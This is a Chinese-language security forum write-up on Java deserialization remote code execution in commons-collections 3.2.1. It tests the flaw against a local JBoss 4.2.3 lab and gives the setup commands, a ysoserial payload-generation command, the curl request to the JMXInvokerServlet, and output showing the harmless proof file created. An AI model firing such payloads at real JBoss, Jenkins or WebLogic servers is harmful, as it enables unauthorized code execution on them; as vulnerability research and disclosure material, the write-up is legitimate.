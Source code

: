 轉自：http://zone.wooyun.org/content/23847

#关于java unserialize rce 一些细节和jboss rce 实践

##1:原理 
大概和php的差不多反序列化时对象注入可以造成代码执行,例如 commons-collections-3.2.1.jar 包就存在这个漏洞,所以只要使用了这个lib的都有可能rce,例如jboss,jenkins,weblogic 等。 

##2:利用方法 
有人写了一个执行命令的payload 生成器,java反射调用Runtime.getRunTime.exec 执行命令,应该也可以改成写文件之类的(未验证)。 

##3:jboss 利用实践 
#####环境 
```
yum install java-1.7.0-openjdk-devel -y 
wget -O jboss-4.2.3.zip http://sourceforge.net/projects/jboss/files/JBoss/JBoss-4.2.3.GA/jboss-4.2.3.GA-jdk6.zip/download 
unzip jboss-4.2.3.zip 
mv jboss-4.2.3.GA /usr/local/share/jboss 
adduser appserver 
chown -R appserver /usr/local/share/jboss 
su -l appserver 
cd /usr/local/share/jboss/bin 
./run.sh -b 0.0.0.0
```



#####exploit 
```
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.2/ysoserial-0.0.2-all.jar 
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'touch /tmp/pwned' > /tmp/payload 
curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```


#####测试 
```
[root@uauc ~]# rm  -rf   /tmp/pwned 
[root@uauc ~]# ls -lh   /tmp/pwned 
ls: cannot access /tmp/pwned: No such file or directory 
[root@uauc ~]# curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet  >  1.log 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current 
                                 Dload  Upload   Total   Spent    Left  Speed 
100  5335    0  3927  100  1408  39474  14153 --:--:-- --:--:-- --:--:-- 42225 
[root@uauc ~]# ls -lh   /tmp/pwned 
-rw-rw-r-- 1 appserver appserver 0 Nov 10 15:27 /tmp/pwned
```

成功-_- 

演示图 
QQ图片20151110153639.png 

##4:更多 
具体漏洞原理利用以及受影响应用还待研究,权为抛砖引玉,欢迎讨论。 


##5:参考资料 

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thevulnerability 
https://github.com/foxglovesec/JavaUnserializeExploits 
https://github.com/frohoff/ysoserial
